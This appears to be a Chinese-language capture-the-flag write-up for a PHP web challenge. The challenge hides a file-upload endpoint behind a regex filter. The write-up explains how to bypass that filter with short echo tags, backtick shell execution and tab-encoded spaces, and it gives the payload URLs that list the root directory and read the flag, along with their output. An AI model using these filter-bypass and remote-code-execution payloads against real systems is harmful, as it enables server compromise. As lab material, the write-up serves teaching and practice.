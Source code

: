 ![[Pasted image 20230105095843.png|500]]

---
```php
 <?php
error_reporting(0);
highlight_file(__FILE__);
function check($input){
    if(preg_match("/'| |_|php|;|~|\\^|\\+|eval|{|}/i",$input)){
        // if(preg_match("/'| |_|=|php/",$input)){
        die('hacker!!!');
    }else{
        return $input;
    }
}

function waf($input){
  if(is_array($input)){
      foreach($input as $key=>$output){
          $input[$key] = waf($output);
      }
  }else{
      $input = check($input);
  }
}

$dir = 'sandbox/' . md5($_SERVER['REMOTE_ADDR']) . '/';
if(!file_exists($dir)){
    mkdir($dir);
}
switch($_GET["action"] ?? "") {
    case 'pwd':
        echo $dir;
        break;
    case 'upload':
        $data = $_GET["data"] ?? "";
        waf($data);
        file_put_contents("$dir" . "index.php", $data);
}
?>
```

`php`被过滤，使用`php`的`echo`标记简写`<?=`绕过
由于反引号`` ` ``没有被过滤，使用反引号来执行`shell`命令
空格被过滤，使用水平制表符`%09`代替

```php
/?action=pwd
```

```
sandbox/xxx/
```

```php
/?action=upload&data=<?=`ls%09/`?>
```

```php
/sandbox/xxx/
```

```
bin boot dev etc flllllll1112222222lag home lib lib64 media mnt opt proc root run sbin srv start.sh sys tmp usr var 
```

```php
/?action=upload&data=<?=`cat%09/flllllll1112222222lag`?>
```

```php
/sandbox/xxx/
```

```
flag{7fb04787-f42b-4b09-aceb-101738202f79} 
```

#Web #PHP #shell #绕过 #RCE